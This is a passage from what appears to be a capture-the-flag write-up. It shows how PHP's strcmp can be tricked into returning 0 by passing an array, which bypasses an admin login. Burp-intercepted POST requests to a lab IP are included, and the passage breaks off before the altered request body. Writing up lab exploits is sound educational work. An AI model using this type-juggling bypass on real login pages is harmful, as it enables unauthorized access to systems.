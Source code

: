 
We found some PHP, lets research that function that evaluates the pass and username.

The strcmp function can be evaluated to true by returning 0, the function

has a problem with handling arrays when it expects a string, if you pass in

a an array instead of a string it will evaluate to 0, making the logic true and bypassing the login.

https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

Let’s intercept the request in burp and insert the array.

## Bypass Authentication

````http

POST /admin/index.php?login=1 HTTP/1.1

Host: 192.168.155.101

Content-Length: 30

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://192.168.155.101

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://192.168.155.101/admin/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

username=admin&password=potato

````

Now I’ll edit the request to make the password an array.

````http

POST /admin/index.php?login=1 HTTP/1.1

Host: 192.168.155.101

Content-Length: 26

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://192.168.155.101

Content-Type: application/x-www-form-urlencoded

````